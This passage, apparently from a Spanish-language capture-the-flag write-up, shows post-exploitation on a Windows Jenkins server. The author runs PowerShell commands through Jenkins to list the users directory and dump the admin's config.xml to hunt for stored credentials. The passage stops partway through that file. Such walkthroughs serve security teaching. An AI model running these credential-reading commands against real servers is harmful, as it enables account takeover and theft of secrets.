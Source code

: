 No tiene ninguna contraseña en texto claro, pero eso no quiere decir que no se pueda obtener a partir de otros directorios

```null
cmd /c powershell -c dir -force ..\..\users
```

```null

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c dir -force ..\..\users 


    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/21/2021   2:22 AM                admin_17207690984073220035                                            
d-----        2/14/2023   8:00 AM                rubbx_5416494707770682747                                             
-a----        2/14/2023   6:28 AM            404 users.xml     
```

Entro en el directorio de ```admin```

```null
cmd /c powershell -c dir -force ..\..\users\admin_17207690984073220035
```

```null
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c dir -force ..\..\users\admin_17207690984073220035 


    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/21/2021   2:22 AM           3186 config.xml
```

Y traigo su archivo de configuración

```null
cmd /c powershell -c type ..\..\users\admin_17207690984073220035\config.xml
```

```null
:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c type ..\..\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
```